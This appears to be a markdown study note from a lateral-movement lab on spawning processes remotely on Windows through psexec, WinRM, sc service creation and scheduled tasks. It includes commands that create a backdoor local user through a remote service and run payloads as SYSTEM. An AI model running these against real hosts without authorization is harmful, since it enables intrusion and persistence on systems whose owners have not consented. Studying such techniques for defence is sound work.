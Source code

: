 ## Spawn process remotely

- `psexec` : 
	- ports: 445/TCP, SMB
	- _Administrator_ group membership required
	- part of MS [sysinternal tools](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```powershell
# psexec64.exe \\MACHINE_IP -u <admin user> -p <admin password> -i <command to run>
psexec64.exe \\MACHINE_IP -u Administrator -p password -i cmd.exe
```

- Remote Process Creation Using `WinRM`
	- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
	-  _Remote Management Users_ group membership required
```powershell
winrs.exe -u:Administrator -p:password -r:target cmd

# or

$username = 'Administrator';
$password = 'password';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 

# Need to create a PSCredential object
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# Use above credential to enter the PS session
Enter-PSSession -Computername TARGET -Credential $credential

# Or use invoke command to run ScriptBlocks remotely via WinRM
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

```

- Creating Services Using `sc`
	- Ports:
	    - 135/TCP, 49152-65535/TCP (DCE/RPC)
	    - 445/TCP (RPC over SMB Named Pipes)
	    - 139/TCP (RPC over SMB Named Pipes)
	- _Administrator_ group membership required
	- `sc` will execute command even if it fails after running it
```powershell

sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice

# Stop and delete
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

- Creating Scheduled Tasks Remotely
```powershell
# Create a new scheduled task
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

# Run the scheduled task
schtasks /s TARGET /run /TN "THMtask1" 

# Delete the task
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
